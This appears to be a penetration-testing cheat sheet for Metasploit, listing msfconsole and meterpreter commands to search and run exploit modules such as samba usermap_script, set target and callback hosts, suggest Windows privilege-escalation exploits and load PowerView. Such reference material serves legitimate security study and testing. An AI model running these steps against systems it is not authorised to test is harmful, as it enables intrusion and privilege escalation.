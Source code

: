 ```yaml
---
title: "Metasploit"
date: 2024-6-28
tags: ["metasploit", "exploit", "vuln", "CVE", "privesc", "meterpreter", "Windows", "msfconsole", "searchsploit"]
---
```


{{< tab set1 tab1 active >}}msfconsole{{< /tab >}}
{{< tab set1 tab2 >}}meterpreter{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start msfconsole

```console
msfconsole -q
```

#### Basic Commands

```console
# Return to previous page
back
```

```console
# Upgrade session
sessions -u
```

```console
# quit metasploit
exit
```

#### Search Exploit

```console
# For example: samba
search samba
```

```console
# Choose by #num
use 15
```

```console
# Choose by full path
use exploit/multi/samba/usermap_script
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
set lhost <LOCAL_IP>
```

```console
set lport <LOCAL_PORT>
```

```console
# Run exploit
run 
```

<small>*Hint: If you see a session is opened, but sit at an empty line, just type your cmd and press enter*</small>

#### Add scripts from searchsploit

```console
mkdir -p ~/.msf4/modules/exploits/linux
```

```console
mkdir -p ~/.msf4/modules/exploits/windows
```

```console
# For example a linux script
cp 12345.rb ~/.msf4/modules/exploits/linux
```

```console
# Inside msfconsole
reload_all
```

```console
# Search
search 12345
```

#### Fix no search result

```console
# Inside msfconsole, check db status
db_status
```

```console
sudo service postgresql start
```

```console
update-rc.d postgresql enable
```

```console
sudo msfdb init
```

```console
# Go bask to msfconsole and check again
db_status
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Basic Commands

```console
# Return from meterpreter
background
```

#### Use Exploit

```console
# Quick look of potential privesc (Windows)
# Need to return from meterpreter
use post/multi/recon/local_exploit_suggester
```

```console
# Select opened session
set session 1
```

```console
# Show exploit settings
options
```

```console
# Set option, e.g.
set rhosts <TARGET>
```

```console
# Run exploit
run 
```

#### Use powershell

```console
# Use powershell module
use powershell
```

```console
# Import module
powershell_import /usr/share/windows-resources/powersploit/Recon/PowerView.ps1
```

```console
# Spawn powershell session
powershell_shell 
```

{{< /tabcontent >}}
